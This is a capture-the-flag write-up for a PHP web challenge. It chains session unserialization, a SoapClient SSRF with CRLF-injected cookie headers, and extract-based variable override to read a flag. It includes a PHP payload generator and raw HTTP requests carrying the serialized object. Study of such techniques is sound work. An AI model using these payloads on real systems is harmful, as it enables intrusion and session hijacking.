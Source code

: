 ### References

- [@N0rth3ty, 从LCTF WEB签到题看PHP反序列化, 2018-11-20](https://xz.aliyun.com/t/3336)

**Tag: Session unserialize, Variable override, SoapClient**

1.find flag.php and the hint is:

```php
only localhost can get flag!
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){
    $_SESSION['flag'] = $flag;
}
```

It's clear that SSRF needs to be used here. SSRF can be triggered using the `SoapClient` unserialize.

Since the flag will be inserted into `$session`, we need access it with Cookie containing the `PHPSESSID` to generate this session file.

POC:

```php
<?php
$target = "http://127.0.0.1/flag.php";
$a = new SoapClient(null,array(
    'location'   => $target,
    'user_agent' => "test\r\nCookie: PHPSESSID=plzgivemeflag\r\n",
    'uri'        => "test"
));
$poc = urlencode(serialize($a));
echo $poc;
```

2.The problem is we can't find any unserialize operations in the `index.php` page. Then i noticed the `session_start()` function, means that we can use session unserialize.

The default `session.serialize_handler` is `php`, therefore, we should change the `serialize_handler` on the index page to `php_serialize`:

```tex
POST /index.php?f=ini_set&name=|[poc data here] HTTP/1.1
...
serialize_handler=php_serialize
```

But the `ini_set` function does not accept array argument. In fact, as you can see in the php manual, the [session_start](https://www.php.net/manual/en/function.session-start) function can also set options and use array as the parameter.

So the session file can be generated with the following poc:

```tex
POST /index.php?f=session_start&name=|O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A4%3A%22test%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A39%3A%22test%0D%0ACookie%3A+PHPSESSID%3Dplzgivemeflag%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D HTTP/1.1
...
serialize_handler=php_serialize
```

Don't forget the `|` character ;)

3.Unserialize is automatically triggered when the page is reloaded, however, SSRF will not be triggered, the `__call` magic function is need.

So we also need to call a method in that object that does not exist. Variable overrides come in handy:

```php
$b = 'implode';
call_user_func($_GET['f'], $_POST);
...
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
```

Here you can use the `extract` function to override `$b` to `call_user_func`:

```tex
POST /index.php?f=extract HTTP/1.1
...
b=call_user_func
```

This will call the welcome_to_the_lctf2018 function in the session object we constructed and trigger the `__call` method.

Finally, just change the cookie to the one we set in SSRF POC to get the flag

![img1](./assets/img1.png?raw=true)

